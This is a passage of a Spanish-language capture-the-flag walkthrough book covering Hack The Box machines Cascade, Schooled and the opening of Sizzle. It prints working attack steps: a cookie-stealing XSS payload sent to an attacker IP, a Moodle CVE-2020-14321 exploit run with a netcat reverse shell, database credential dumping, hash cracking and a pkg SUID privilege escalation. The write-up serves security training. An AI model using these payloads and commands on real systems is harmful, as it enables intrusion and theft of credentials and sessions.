\ExtensionTok{prompt}\NormalTok{ off}
\ExtensionTok{recurse}\NormalTok{ ON}
\ExtensionTok{mget}\NormalTok{ *}
\end{Highlighting}
\end{Shaded}

Aqui hemos descargado todo los ficheros del recurso compartido. Hay un fichero \texttt{Audit.db}, lo analyzamos con sqlite

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ DB}
\ExtensionTok{sqlite3}\NormalTok{ Audit.db}

\ExtensionTok{.tables}
\KeywordTok{select} \ExtensionTok{*}\NormalTok{ from DeletedUserAudit}\KeywordTok{;}
\KeywordTok{select} \ExtensionTok{*}\NormalTok{ from Ldap}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}

Vemos una contraseña encryptada en base64 del usuario \texttt{ArkSvc}.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"8QO5l5Kj9MdErXx6Q6AG0w=="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\BuiltInTok{echo} \StringTok{"8QO5l5Kj9MdErXx6Q6AG0w=="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ arksvc_password}
\FunctionTok{cat}\NormalTok{ arksvc_password}
\end{Highlighting}
\end{Shaded}

Nuevamente vemos que es una contraseña encryptada. Tenemos que buscar con que a sido encryptada.

Como hay differentes ficheros windows, transferimos los ficheros a una maquina windows.

En la maquina windows, instalamos el \texttt{dotPeek} que es una heramienta que nos permite analyzar codigo dotNet a bajo nivel.
Vemos aqui una Key y utiliza la dll CascCrypto para encryptar y desencryptar cosas. Analyzamos la dll y vemos que utiliza un \textbf{Modo CBC} para
encryptar y desencryptar. Vemos un \textbf{IV} y con \href{https://gchq.github.io/CyberChef/}{cyberChef} desencryptamos la contraseña.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Cascade-cbc-decrypt} \caption{CBC decrypt with cyberchef}\label{fig:unnamed-chunk-84}
\end{figure}

Ya tenemos contraseña y validamos con crackmapexec.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.182 -u }\StringTok{'arksvc'}\NormalTok{ -p }\StringTok{'w3lc0meFr31nd'}
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.182 -u }\StringTok{'arksvc'}\NormalTok{ -p }\StringTok{'w3lc0meFr31nd'}
\end{Highlighting}
\end{Shaded}

Como el usuario esta \textbf{Pwn3d!} con winrm nos connectamos con \textbf{Evil-WinRM}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.182 -u }\StringTok{'arksvc'}\NormalTok{ -p }\StringTok{'w3lc0meFr31nd'}
\end{Highlighting}
\end{Shaded}

Enumeramos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Administrator}
\FunctionTok{dir}
\NormalTok{whoami /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el usuario es parte del grupo \textbf{AD Recycle Bin} y esto nos hace pensar que los ficheros que hemos visto
contiene un log en el cual habia el usuario \textbf{AdminTemp} en el \textbf{Recycle Bin}. Esto podria permitirnos buscar Objetos
borrados. Buscando por internet encontramos un comando:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{Get-ADDObject -Filter 'Deleted -eq }\VariableTok{$true}\NormalTok{' -IncludeDeletedObjects}
\end{Highlighting}
\end{Shaded}

Encontramos el usuario borrado pero necesitamos ver si podemos encontrar propriedades de este objeto

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{Get-ADDObject -Filter 'Deleted -eq }\VariableTok{$true}\NormalTok{' -IncludeDeletedObjects -Properties *}
\end{Highlighting}
\end{Shaded}

Aqui encontramos su \textbf{CascadeLegacyPwd} en base64

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"YmFDVDNyMWFOMDBkbGVz"} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}

Parece ser una contraseña. Como en el email que hemos encontrado, se supone que la contraseña es la misma que la contraseña del usuario \textbf{Administrator}.
Lo comprobamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.182 -u }\StringTok{'Administrator'}\NormalTok{ -p }\StringTok{'baCT3r1aN00dles'}
\end{Highlighting}
\end{Shaded}

y si vemos el \textbf{Pwn3d!}. Esto quiere decir que nos podemos conectar con \textbf{Evil WinRM}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.182 -u }\StringTok{'Administrator'}\NormalTok{ -p }\StringTok{'baCT3r1aN00dles'}

\FunctionTok{whoami}
\CommentTok{#Output }
\ExtensionTok{cascade}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Ya podemos leer la flag.

\hypertarget{schooled}{%
\chapter*{Schooled}\label{schooled}}
\addcontentsline{toc}{chapter}{Schooled}

\hypertarget{introduccion-52}{%
\section*{Introduccion}\label{introduccion-52}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Schooled.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=gsz_aK-r_8s}{\includegraphics{https://img.youtube.com/vi/gsz_aK-r_8s/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-52}{%
\section*{Enumeracion}\label{enumeracion-52}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-52}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-52}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-52}{%
\subsubsection*{Ping}\label{ping-52}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.234}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-52}{%
\subsubsection*{Nmap}\label{nmap-52}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.234}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.234 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80,443 10.10.10.234 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
33060 & mysql? & SQLI &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-34}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-34}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-41}{%
\subsubsection*{Whatweb}\label{whatweb-41}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.234}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.46 en un \textbf{FreeBSD} con PHP 7.4.15. Vemos un email \texttt{admission@schooled.htb}, añadmimos el dominio al \texttt{/etc/hosts}.

\hypertarget{checkear-la-web-18}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-18}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.234} o \texttt{http://schooled.htb} vemos lo mismo. El wappalizer no nos muestra nada interessante.
No vemos commentarios interessante en el codigo fuente. Si pinchamos al link \textbf{About}, vemos que la pagina se carga con una animacion.
Investigamos lo que ocure al lado del servidor con \textbf{BurpSuite} pero no vemos nada.
En la pagina \texttt{http://10.10.10.234/about.html} vemos probables usuarios en el testimonials. En la pagina \texttt{http://10.10.10.234/teachers.html}
vemos mas usuarios potenciales. Decidimos crear un diccionario con estos usuarios por si acaso.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ users}

\ExtensionTok{James}\NormalTok{ Fernando}
\ExtensionTok{j.fernando}
\ExtensionTok{jfernando}
\ExtensionTok{Jacques}\NormalTok{ Philips}
\ExtensionTok{j.philips}
\ExtensionTok{jphilips}
\ExtensionTok{Venanda}\NormalTok{ Mercy}
\ExtensionTok{v.mercy}
\ExtensionTok{vmercy}
\ExtensionTok{Jane}\NormalTok{ Higgins}
\ExtensionTok{j.higgins}
\ExtensionTok{jhiggins}
\ExtensionTok{Lianne}\NormalTok{ Carter}
\ExtensionTok{l.carter}
\ExtensionTok{lcarter}
\ExtensionTok{Manuel}\NormalTok{ Phillips}
\ExtensionTok{m.phillips}
\ExtensionTok{mphillips}
\ExtensionTok{Jamie}\NormalTok{ Borham}
\ExtensionTok{j.borham}
\ExtensionTok{jborham}
\end{Highlighting}
\end{Shaded}

\hypertarget{fuzzing}{%
\subsubsection*{Fuzzing}\label{fuzzing}}
\addcontentsline{toc}{subsubsection}{Fuzzing}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.234 -oN webScan}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.234/FUZZ}
\end{Highlighting}
\end{Shaded}

Como no encontramos nada interessante, vamos a enumerar subdominios con \textbf{WFUZZ}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H }\StringTok{"Host: FUZZ.shooled.htb http:10.10.10.234}
\StringTok{wfuzz -c -t 200 --hc=404 --hl=461 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "}\NormalTok{Host: FUZZ.shooled.htb http:10.10.10.234}
\end{Highlighting}
\end{Shaded}

Encontramos un subdominio \texttt{moodle.schooled.htb}, lo añadmimos al \texttt{/etc/hosts}.

\hypertarget{vulnerability-assessment-39}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-39}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{moodle}{%
\subsection*{Moodle}\label{moodle}}
\addcontentsline{toc}{subsection}{Moodle}

Por la url \texttt{http://moodle.schooled.htb} vemos usuarios que ya tenemos en nuestro diccionario. Vemos que para ver los recursos, nos tenemos que
loggear. Hay la posibilidad de loggearnos como guest o de crear un nuevo usuario.

Empezamos por crear un usuario. Vemos durante esta fase que necessitamos un email de typo \texttt{@student.schooled.htb}, lo añadmimos en el \texttt{/etc/hosts}.
pero la web por \texttt{http://student.schooled.htb} no cambia.

Vemos que estamos registrados como estudiante y tenemos acceso al curso \textbf{Mathematics}. Le damos al boton \textbf{enroll} para suscribirnos al curso.
Encontramos mensajes de profesores que nos dice que tenemos que tener el profile de MoodelNet para podernos suscribir al curso.
Si vamos en nuestro perfil de usuario vemos que hay un campo MoodleNet profile. Nos llama la atencion el echo que el profe dice en el mensaje que
va a controlar todos los perfiles moodleNet antes que la classe empieze.

Miramos si hay una posibilidad de injectar un XSS en el campo MoodleNet Profile

\hypertarget{xss-1}{%
\subsection*{XSS}\label{xss-1}}
\addcontentsline{toc}{subsection}{XSS}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{<}\ExtensionTok{script}\OperatorTok{>}\NormalTok{alert(}\StringTok{"XSS"}\NormalTok{)}\OperatorTok{<}\NormalTok{/}\ExtensionTok{script}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Le damos a Update profile y vemos que una popup se pone visible. Como vemos que es vulnerable, vamos a intentar robar la cookie de session de Manuel Phillips.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Montamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Injectamos el XSS en la web

\begin{verbatim}
<script>document.location="http://10.10.16.3/value_cookie=" + document.cookie</script>
\end{verbatim}
\item
  Le damos a Update Profile.
\end{enumerate}

Esperamos un poco y vemos que una peticion a sido lanzada y vemos una cookie de session

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Schooled-moodlenet-xss} \caption{MoodleNet XSS}\label{fig:unnamed-chunk-85}
\end{figure}

Cambiamos la cookie desde firefox y recargamos la pagina. Ya vemos que nos hemos convertido en Manuel Philips.
Buscando por internet con busquedas de typo \texttt{moodle\ professor\ role\ rce\ github}, vemos que existe un CVE 2020-14321.

Encontramos un exploit y lo utilizamos para crear una reverse shell.

\hypertarget{vuln-exploit-gaining-access-39}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-39}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-moodle-siendo-professor}{%
\subsection*{Ganando accesso con moodle siendo professor}\label{ganando-accesso-con-moodle-siendo-professor}}
\addcontentsline{toc}{subsection}{Ganando accesso con moodle siendo professor}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Cargamos y lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/lanzt/CVE-2020-14321}
\BuiltInTok{cd}\NormalTok{ CVE-2020-14321}
\ExtensionTok{python3}\NormalTok{ CVE-2020-14321_RCE.py --cookie v6tp73g3lnflt81rvtn29jivj6 -c }\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f"}\NormalTok{ http://moodle.schooled.htb/moodle}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Y ganamos accesso al systema como el usuario \textbf{www}. No podemos lanzar una pseudo consola con tratamiento de la TTY pero seguimos investigando.

\hypertarget{user-pivoting-6}{%
\subsection*{User pivoting}\label{user-pivoting-6}}
\addcontentsline{toc}{subsection}{User pivoting}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ ..}
\FunctionTok{ls}
\BuiltInTok{pwd}
\BuiltInTok{cd}\NormalTok{ /usr/local/www/apache24/data/moodle}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{cat}\NormalTok{ config.php}
\end{Highlighting}
\end{Shaded}

Vemos un \texttt{config.php} con credenciales para mysql.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ mysql}
\FunctionTok{which}\NormalTok{ mysqlshow}
\BuiltInTok{export} \VariableTok{$PATH}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el PATH es muy pequeño. Copiamos nuestro PATH de la maquina de atacante y la ponemos en la victima

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{export} \VariableTok{PATH=}\NormalTok{/root/.local/bin:/home/s4vitar/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin/:/home/s4vitar/go-workspace/bin:/home/s4vitar/.fzf/bin}
\BuiltInTok{export} \VariableTok{$PATH}
\FunctionTok{which}\NormalTok{ mysqlshow}
\end{Highlighting}
\end{Shaded}

Ahora que tenemos acceso a la utilidad mysqlshow. Nos conectamos con las credenciales.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{mysqlshow}\NormalTok{ -umoodle -pPlaybookMaster2020}
\ExtensionTok{mysqlshow}\NormalTok{ -umoodle -pPlaybookMaster2020 moodle}
\end{Highlighting}
\end{Shaded}

Vemos una table \textbf{mdl\_user}, miramos su contenido con mysql

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{mysql}\NormalTok{ -umoodle -pPlaybookMaster2020 -e }\StringTok{"select * from mdl_user"}\NormalTok{ moodle}
\ExtensionTok{mysql}\NormalTok{ -umoodle -pPlaybookMaster2020 -e }\StringTok{"select username,password,email from mdl_user"}\NormalTok{ moodle}
\end{Highlighting}
\end{Shaded}

Copiamos el resultado en un fichero hashes y tratamos el fichero para poder crackearlo con John

\hypertarget{crackeando-contraseuxf1as-con-john}{%
\subsubsection*{Crackeando contraseñas con John}\label{crackeando-contraseuxf1as-con-john}}
\addcontentsline{toc}{subsubsection}{Crackeando contraseñas con John}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ hashes }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1 ":" $2\}'}
\FunctionTok{cat}\NormalTok{ hashes }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1 ":" $2\}'} \KeywordTok{|} \ExtensionTok{sponge}\NormalTok{ hashes}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyout.txt hashes}
\end{Highlighting}
\end{Shaded}

Encontramos el hash del usuario admin. Pero este usuario no existe en el systema. Mirando el email vemos que el usuario es \textbf{jamie}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ jamie@10.10.10.234}
\end{Highlighting}
\end{Shaded}

Ya somos jamie y poder leer el user.txt

\hypertarget{privilege-escalation-36}{%
\section*{Privilege Escalation}\label{privilege-escalation-36}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-45}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-45}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{uname}\NormalTok{ -a}
\FunctionTok{cat}\NormalTok{ /etc/os-release}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos lanzar el binario \texttt{/usr/sbin/pkg\ install\ *} como cualquier usuario sin proporcionar contraseña.
Buscando por \href{https://gtfobins.github.io/gtfobins/pkg/\#sudo}{gtfobins} vemos que podemos convertirnos en root con el comando

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{TF=$(}\FunctionTok{mktemp}\NormalTok{ -d}\VariableTok{)}
\BuiltInTok{echo} \StringTok{'chmod u+s /bin/bash'} \OperatorTok{>} \VariableTok{$TF}\NormalTok{/x.sh}
\ExtensionTok{fpm}\NormalTok{ -n x -s dir -t freebsd -a all --before-install }\VariableTok{$TF}\NormalTok{/x.sh }\VariableTok{$TF}

\FunctionTok{sudo}\NormalTok{ pkg install -y --no-repo-update ./x-1.0.txz}
\end{Highlighting}
\end{Shaded}

En este caso no funcciona porque la maquina victima no tiene \textbf{fpm} instalado. Vemos que este comando solo crea un \texttt{.txz}. Lo hacemos desde nuestra maquina
de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gem}\NormalTok{ install fpm}
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}

\VariableTok{TF=}\StringTok{"/tmp/privesc"}
\BuiltInTok{echo} \StringTok{'chmod u+s /bin/bash'} \OperatorTok{>} \VariableTok{$TF}\NormalTok{/x.sh}
\ExtensionTok{fpm}\NormalTok{ -n x -s dir -t freebsd -a all --before-install }\VariableTok{$TF}\NormalTok{/x.sh }\VariableTok{$TF}
\end{Highlighting}
\end{Shaded}

Aqui ya tenemos el \texttt{.txz} en nuestra maquina de atacante. Lo transferimos a la maquina victima

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Desde la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{<}\NormalTok{ x-1.0.txz}
\end{Highlighting}
\end{Shaded}
\item
  Desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.16.3 443 }\OperatorTok{>}\NormalTok{ x-1.0.txz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos lanzar la instalacion.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ pkg install -y --no-repo-update ./x-1.0.txz}
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya estamos root y podemos leer la flag.

\hypertarget{sizzle}{%
\chapter*{Sizzle}\label{sizzle}}
\addcontentsline{toc}{chapter}{Sizzle}

\hypertarget{introduccion-53}{%
\section*{Introduccion}\label{introduccion-53}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Sizzle.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=nyxEzS55-Aw}{\includegraphics{https://img.youtube.com/vi/nyxEzS55-Aw/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-53}{%
\section*{Enumeracion}\label{enumeracion-53}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-53}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-53}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-53}{%
\subsubsection*{Ping}\label{ping-53}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.103}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-53}{%
\subsubsection*{Nmap}\label{nmap-53}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.103}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.103 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,53,80,135,139,389,443,445,464,593,636,3268,3269,5985,5986,9389,47001,49664,49665,49666,49667,49668,49677,49688,49689,49691,49694,49706,49712,49720 10.10.10.103 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Anonymous connection &\tabularnewline
53 & domain & Domain Controller ataque transferencia zona & dominio valido\tabularnewline
80 & http & web Fuzzin &\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound ldapdomaindump & credenciales\tabularnewline
443 & https & web Fuzzin &\tabularnewline
445 & smb & Null session &\tabularnewline
464 & kpasswd5? & &\tabularnewline
593 & ncacn\_http & &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
5986 & WinRM ssl & evil-winrm & credenciales\tabularnewline
9389 & mc-nmf & Puertos por defecto de windows &\tabularnewline
47001 & http & Puertos por defecto de windows &\tabularnewline
49664 & msrpc & Puertos por defecto de windows &\tabularnewline
49665 & msrpc & Puertos por defecto de windows &\tabularnewline
49666 & msrpc & Puertos por defecto de windows &\tabularnewline
49668 & msrpc & Puertos por defecto de windows &\tabularnewline
49677 & msrpc & Puertos por defecto de windows &\tabularnewline
49688 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49689 & msrpc & Puertos por defecto de windows &\tabularnewline
49691 & msrpc & Puertos por defecto de windows &\tabularnewline
49694 & msrpc & Puertos por defecto de windows &\tabularnewline
49706 & msrpc & Puertos por defecto de windows &\tabularnewline
49712 & msrpc & Puertos por defecto de windows &\tabularnewline
49720 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-ftp}{%
\subsection*{Analyzando el FTP}\label{analyzando-el-ftp}}
\addcontentsline{toc}{subsection}{Analyzando el FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.103}
\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{Password}\NormalTok{: }\CommentTok{#Enter}
\CommentTok{#Output}
\ExtensionTok{User}\NormalTok{ logged in.}
\FunctionTok{dir}
\FunctionTok{ls}\NormalTok{ -la}
\end{Highlighting}
\end{Shaded}

Hemos podido loggearnos como el usuario \textbf{anonymous} pero no vemos nada. Miramos si podemos subir archivos.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"content"} \OperatorTok{>}\NormalTok{ prueba.txt}

\FunctionTok{ftp}\NormalTok{ 10.10.10.103}
\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{Password}\NormalTok{: }\CommentTok{#Enter}
\CommentTok{#Output}
\ExtensionTok{User}\NormalTok{ logged in.}

\ExtensionTok{put}\NormalTok{ prueba.txt}
\CommentTok{#Output}
\ExtensionTok{550}\NormalTok{ Access is denied.}
\end{Highlighting}
\end{Shaded}

No podemos subir archivos.

\hypertarget{analysis-del-certificado-ssl}{%
\subsection*{Analysis del certificado ssl}\label{analysis-del-certificado-ssl}}
\addcontentsline{toc}{subsection}{Analysis del certificado ssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.103:443}
\end{Highlighting}
\end{Shaded}

Aqui vemos el dominio \texttt{sizzle.htb.local} y lo metemos en el \texttt{/etc/hosts}

\hypertarget{analysis-del-dominio}{%
\subsection*{Analysis del dominio}\label{analysis-del-dominio}}
\addcontentsline{toc}{subsection}{Analysis del dominio}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.103 sizzle.htb.local ns}
\end{Highlighting}
\end{Shaded}

Encontramos otro dominio, el \texttt{hostmaster.htb.local} que añadimos en el \texttt{/etc/hosts}. Miramos si es vulnerable a ataque de transferencia de zona.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.103 sizzle.htb.local axfr}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no applica.

\hypertarget{analysis-del-rpc}{%
\subsection*{Analysis del RPC}\label{analysis-del-rpc}}
\addcontentsline{toc}{subsection}{Analysis del RPC}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.103 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\CommentTok{#Output}
\ExtensionTok{NT_STATUS_ACCESS_DENIED}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hemos podido connectar con el NULL Session pero no tenemos derecho de enumerar usuarios a nivel de dominio.

\hypertarget{analyzando-el-smb-10}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-10}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.103}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.103 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows 10 de 64 bit pro que se llama \textbf{SIZZLE} en el dominio \textbf{htb.local}.
Vemos que hay recursos compartidos a nivel de red con los recursos \texttt{IPC\$} y \texttt{Department\ Shares} con derechos de lectura.
Seguimos analyzando con \textbf{smbclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient} \StringTok{"//10.10.10.103/Department Shares"}\NormalTok{ 10.10.10.103 -N}
\ExtensionTok{smb}\NormalTok{: }\DataTypeTok{\textbackslash{}>}

\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui vemos muchos directorios y es bastante dificil ver todo lo que hay desde smbclient. Nos creamos una montura para visualizar este recurso.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/smb}
\FunctionTok{mount}\NormalTok{ -t cifs }\StringTok{"//10.10.10.103/Department Shares"}\NormalTok{ /mnt/smb}
\BuiltInTok{cd}\NormalTok{ /mnt/smb}
\ExtensionTok{tree}
\BuiltInTok{cd}\NormalTok{ Users}
\end{Highlighting}
\end{Shaded}

\hypertarget{vulnerability-assessment-40}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-40}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{recurso-read-only-escribible}{%
\subsection*{Recurso READ ONLY escribible}\label{recurso-read-only-escribible}}
\addcontentsline{toc}{subsection}{Recurso READ ONLY escribible}

